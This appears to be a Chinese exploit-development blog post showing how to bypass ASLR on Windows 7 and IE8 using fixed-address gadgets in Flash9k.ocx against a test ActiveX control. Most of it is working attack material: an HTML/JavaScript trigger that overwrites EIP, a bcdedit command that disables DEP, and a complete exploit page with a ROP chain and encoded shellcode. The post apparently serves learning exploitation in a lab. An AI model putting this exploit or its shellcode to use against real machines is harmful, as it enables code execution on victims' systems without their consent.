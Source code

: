 ```yaml
---
layout:		post
title:		攻击未启用ASLR的模块
author:		wooy0ung
tags:		
category:  	exploit
---
```



>[分析环境]  
>系统: Windows 7 x86  
>编译器: Visual Studio 2008  
>调试器: OllyDbg 1.10  
>浏览器: Internet Explorer 8  
>Flash Player ActiveX: 9.0.262  
<!-- more -->


### 0x00 前期准备

确定Flash9k.ocx加载基址是否固定不变, 重启前

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x00.png)

重启后

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x01.png)

然后注册*.ocx, 这里可以用VulnerAX_DEP.ocx

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:39F64D5B-74E8-482F-95F4-918E54B1B2C8" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s += "\u9090\u9090";
test.test(s);  
</script>  
</body>  
</html>
```

准备test.html文件, 贴入以上内容

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x02.png)

来到这里OD附加上去

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x03.png)

EIP已经被覆盖成0x90909090


### 0x01 构造rop

避免DEP干扰实验, 先关掉

```
> bcdedit.exe/set {current} nx AlwaysOff
``` 

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x04.png)

然后构造rop, 在Flash9k.ocx空间找到两条jmp esi(0xFFE6)指令

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x05.png)

0x100A5FC7处含有未知指令C7, 只有0x1012E78A能用

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x06.png)

这里要读[EAX], 先修复一EAX

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x07.png)

找到一条mov eax,edx retn 8(0x1014d286)


### 0x02 exploit

完整的exp

```
<html>  
<body>  
<object classid="clsid:D27CDB6E-AE6D-11cf-96B8-444553540000" codebase="http://download.macromedia.com/pub/shockwave/cabs/flash/swflash.cab#version=9,0,28,0" width="160" height="260">
  <param name="movie" value="1.swf" />
  <param name="quality" value="high" />
  <embed src="1.swf" quality="high" pluginspage="http://www.adobe.com/shockwave/download/download.cgi?P1_Prod_Version=ShockwaveFlash" type="application/x-shockwave-flash" width="160" height="260"></embed>
</object>
<object classid="clsid:06BC9528-F8A0-456B-BBBB-09C1248BF827" id="test"></object>  
<script>  
var s = "\u9090";
while (s.length < 54) {
s += "\u9090";
}
s += "\uD286\u1014\u9090\u9090\uE78A\u1012\u9090\u9090";
s += "\ud231\u30b2\u8b64\u8b12\u0c52\u528b\u8b1c\u0842\u728b\u8b20\u8012\u0c7e\u7533\u89f2\u03c7\u3c78\u578b\u0178\u8bc2\u207a\uc701\ued31\u348b\u01af\u45c6\u3e81\u6146\u6174\uf275\u7e81\u4508\u6978\u7574\u8be9\u247a\uc701\u8b66\u6f2c\u7a8b\u011c\u8bc7\uaf7c\u01fc\u68c7\u2067\u0120\u7968\u7530\u686e\u7720\u6f6f\ue189\u49fe\u310b\u51c0\uff50\u90d7";
test.test(s);  
</script>  
</body>  
</html>
```

pwn~

![](/assets/img/exploit/2017-12-30-break-aslr-by-unaslr/0x08.png)